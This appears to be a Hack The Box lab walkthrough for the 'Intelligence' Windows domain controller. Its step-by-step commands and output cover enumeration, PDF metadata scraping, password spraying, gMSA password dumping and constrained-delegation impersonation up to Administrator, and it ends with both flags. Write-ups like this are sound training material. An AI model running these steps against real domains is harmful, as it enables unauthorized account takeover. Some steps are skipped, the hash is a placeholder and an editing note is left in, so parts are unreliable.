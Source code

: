 **Skills Required**
Password spraying
Password cracking
Basic Active Directory knowledge
**Skills Learned**
ADIDNS abuse
ReadGMSAPassword abuse
Constrained delegation abuse

- Open port 80
- Port 88 is Kerberos
- Port 5985 is WinRM
- Port 389 is LDAP
- Common name: dc.intelligence.htb
- Port 445 is SMB

Check port 80 with WhatWeb:

```bash
whatweb 10.10.10.248
```

This shows a domain intelligence.htb, indicating virtual hosting is in use. Save this domain and link it to the IP in the system's hosts file.

Port 445 is open; use CrackMapExec to gather more information:

```bash
crackmapexec smb 10.10.10.248
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
```

CrackMapExec has the `--shares` parameter to list shared resources:

```bash
crackmapexec smb 10.10.10.248 --shares
SMB         10.10.10.248    445    DC               [-] Error enumerating shares: STATUS_USER_SESSION_DELETED
```

You can also use SMBMap to list shared resources:

```bash
smbmap -H 10.10.10.248 -u 'null'
[!] Authentication error on 10.10.10.248
```

These tools don't report any resources, so valid credentials are needed to view the victim machine's resources.

You need to enumerate users to try to obtain valid credentials. Use rpcclient with a null session to test if you have access:

```bash
rpcclient -U "" 10.10.10.248
Cannot connect to the server. Error was NT_STATUS_LOGON_FAILURE
```

Rpcclient does not allow enumeration without valid credentials, so you need valid credentials.

Check the HTTP service in the browser as it's a website. Try to obtain credentials or find vulnerabilities for remote command execution.

On the website, you can download PDF documents. Analyze them with exiftool to find important content like valid system users in the document metadata. The URL for the list of PDF files follows a date pattern. You can create a Bash one-liner to iterate through date ranges and attempt to download files and discover confidential information:

```bash
for i in {2020..2022}; do for j in {01..12}; do for k in {01..31}; do echo "http://10.10.10.248/documents/$i-$j-$k-upload.pdf"; done; done; done | xargs -n 1 -P 20 wget
```

After downloading the files, use the exiftool to analyze the metadata of the PDF files and search for the "creator" line containing the username:

```bash
exiftool *.pdf | grep "Creator" | awk 'NF{print $NF}' | sort -u > users
```

With this potential list of valid users, use the Kerbrute tool to validate the list of users:

```bash
kerbrute userenum --dc 10.10.10.248 -d intelligence.htb users
```

All users in the list are valid. Now that you have a list of valid users, you can perform an ASREPRoast attack and request TGTs (explain what TGTs are in this context):

```bash
GetNPUsers.py intelligence.htb/ -no-pass -usersfile users
```

Since these users do not have the "Don't require preauth" parameter set, you cannot obtain the hash.

So, recheck the previously downloaded PDF files to search for possible passwords. Use the pdftotext tool to easily read the content of each PDF file in the terminal:

```bash
for file in $(ls); do echo $file; done | grep -v users | while read filename; do pdftotext $filename; done
```

This one-liner creates text files with pdftotext for each PDF. Now, analyze each .txt file:

```bash
cat *.txt
NewIntelligenceCorpUser9876
```

You found a possible password. Use CrackMapExec to find out which user from your list this password belongs to:

```bash
crackmapexec smb 10.10.10.248 -u users -p 'NewIntelligenceCorpUser9876'
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
```

Now that you have validated the credentials, you need to figure out how to gain access to the victim's machine. You can use the BloodHound Python tool to gather more information to gain access:

```bash
mkdir bloodhound
bloodhound-python -c ALL -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -ns 10.10.10.248 -d intelligence.htb
neo4j console
bloodhound &> /dev/null & disown

# In the program:
# - Upload data
# - Search for users for whom you already have credentials and mark them as "pwned" in the program
# - Then, select a user and use the "node info" option
```

This reveals that the user Ted.Graves can dump the GMSA password for SVC_INT. To do this, use the 'gmsadumper' tool:

```bash
gmsadumper -u 'Ted.Graves' -p 'Mr.Teddy' -l 10.10.10.248 -d intelligence.htb
```

You have the hash of SVC_INT, which has the "AllowedToDelegate" privilege, allowing you to impersonate the Administrator user and gain access to the machine. Use the "getST" tool:

```bash
getST -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int -hashes :fdasfhash
```

You need the "spn" parameter for "getST," which you can find using the "pywerview" tool:

```bash
pywerview get-netcomputer -u 'Ted.Graves' -p 'Mr.Teddy' -t 10.10.10.248 --full-data
# Search for msds-allowedtodelegateto
```

When you run "getST" again, it gives you a .ccache file. Authenticate to the victim machine as Administrator using "wmiexec":

```bash
# Set the environment variable on your machine
export KRB5CCNAME=Administrator.ccache

# Execute the command
wmiexec dc.intelligence.htb -k -no-pass
```

This way, you gain access as Administrator and can consider this machine from Hack The Box solved:

- User flag: 95f3d069016706a76c6f624d1d41c82f
- Root flag: 5f5781dfc5eb477c4bb9710764b009c3